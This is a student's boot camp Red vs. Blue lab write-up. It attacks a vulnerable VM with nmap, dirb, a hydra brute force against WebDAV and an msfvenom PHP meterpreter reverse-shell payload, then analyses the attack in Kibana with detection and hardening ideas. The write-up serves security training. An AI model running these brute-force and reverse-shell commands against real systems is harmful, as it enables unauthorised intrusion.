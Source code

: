 # UCLA Cyber Security Boot Camp Project II - Red vs. Blue Engagement
## by Kurt Anderson

In this project I will work on a Red Team vs. Blue Team scenario in which I will play the roles of both Pentester and Security Operations Center Analyst.

![Network Topology](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/Project2Topology.png)

As the Red Team, I will attack a vulnerable VM within my created virtual environment, ultimately gaining root access to the machine.
As the Blue Team, I will use Kibana to review logs taken during the Red Team engagement. I will then use the logs to extract hard data and visulaizations for my report, using it to interpret my log data to suggest mitigation measures for each exploit that I've successfully performed as a Pentester.

Day 1 Activity File: Red Team

Complete the following to find the flag:

●	Discover the IP address of the Linux web server.

Command:
	
	nmap -v 192.168.1.0/24 
  
  ![nmap scan of 192.168.1.0/24](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/nmap_scan.jpg)
  
IP address found:
  
	192.168.1.90
	
●	Locate the hidden directory on the web server.

I used dirb to enumerate any directories and identify the hidden folder.

![dirb directory enumeration](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/dirb_enumeration.jpg)
 
●	Brute force the password for the hidden directory using the hydra command:

![Hydra Brute Force](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/hydra.jpg)

Using the username and password I was able to log into the host and found a Personal Note:

Command:

	hydra -l ashton -P /usr/share/wordlists/rockyou.txt webdav://192.168.1.90/

![Personal Note:](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/personal_note.jpg)

●	Break the hashed password with the Crack Station website or John the Ripper.
 
![Cracked Password:](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/cracked_password.jpg)

●	Connect to the server via WebDav.

![WebDAV Credentials](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_login.PNG)

●	Upload a PHP reverse shell payload.
Command: 

	msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 raw > reverse_shell.php

![Payload](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/msvenom.jpg)
![WebDAV File Manager](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_reverse_shell.jpg)
![WebDAV Browswer](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_upload.jpg)
 
●	Execute the payload that you uploaded to the site to open up a meterpreter session.

![Exploit Payload](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/payload.jpg)
![Exploitation](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/exploitation.jpg)

●	Find and capture the flag.

![Flag Found](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/meterpreter.jpg)


Day 2 Activity File: Incident Analysis with Kibana

 
After creating your dashboard and becoming familiar with the search syntax, use these tools to answer the questions below:

1.	Identify the offensive traffic.
![Dashboard](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/Kibana_analysis.PNG)

○	Identify the traffic between your machine and the web machine:

	■	When did the interaction occur?

		The interaction occurred on 2021-12-14 03:00

	■	What responses did the victim send back?

		200, 207, 401, 404, 206, 304, 301

	■	What data is concerning from the Blue Team perspective?

		The status code ‘OK’ signifying that there was a completed request from the source IP and a response from the destination IP
 

2.	Find the request for the hidden directory.

○	In your attack, you found a secret folder. Let's look at that interaction between these two machines.

	■	How many requests were made to this directory? At what time and from which IP address(es)?

		There were 16,721 requests made to the directory /secret_folder, at 03:45 from the IP address 192.168.1.90.

	■	Which files were requested? What information did they contain?

		The file that was requested is the reverse_shell.php file

	■	What kind of alarm would you set to detect this behavior in the future?

		To detect this behavior in the future, I would set an alert to send an email with a high priority to notify the SOC that this type of request was made to access confidential company folders and data. 

	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.

		One way to harden the vulnerable machine that would mitigate this attack would be to ensure that the device has been updated and patched regularly in order to mitigate the exploitation of common system vulnerabilities.

3.	Identify the brute force attack.

○	After identifying the hidden directory, you used Hydra to brute-force the target server. Answer the following questions:
	
	■	Can you identify packets specifically from Hydra?

		Yes, by searching the ‘user_agent.original” field. 

	■	How many requests were made in the brute-force attack?

		There were 16,711 requests
 
	■	How many requests had the attacker made before discovering the correct password in this one?

		It appears that there were 16,711 requests before the correct password was discovered.
 

	■	What kind of alarm would you set to detect this behavior in the future and at what threshold(s)?

		I would set an alert to email the SOC that the login threshold has been surpassed in a certain amount of time. 


	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.
		
		Upon searching through the logs it appeared that most of these requests happened through port 80 on the target machine, so I would suggest to place a firewall to filter out packets coming from outdated user agents like Mozilla 4.0, or close port 80 entirely.
	
4.	Find the WebDav connection.

○	Use your dashboard to answer the following questions:

	■	How many requests were made to this directory?

		209 requests were made to the 192.168.1.105/webdav/ directory.
 

	■	Which file(s) were requested?

		XML files were requested, based on the HTTP request method ‘propfind’, and the status code of 207, which is a response used by webdav servers.

	■	What kind of alarm would you set to detect such access in the future?

		An alarm to alert the SOC of any PROPFIND requests for Webdav.

	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.

		One way to harden the vulnerable machine from PROPFIND is to use multi-factor authentication to help prevent brute-force attacks on webdav logins.

5.	Identify the reverse shell and meterpreter traffic.

○	To finish off the attack, you uploaded a PHP reverse shell and started a meterpreter shell session. Answer the following questions:
	
	■	Can you identify traffic from the meterpreter session?
 
		There was a spike in activity from the source IP address 192.168.1.90, which potentially shows that the target machine 192.168.1.105 had been breached, since they share similar patterns in activity. 

	■	What kinds of alarms would you set to detect this behavior in the future?
		
		An alert that has a minimum threshold of packet traffic to alert the SOC of any spikes in activity, and is monitored every hour. 

	■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.
		
		In order to harden the vulnerable machine to mitigate this attack, I suggest that we require authentication in order to upload files to the webdav server, as well as defining the valid file extension types allowed on the server.
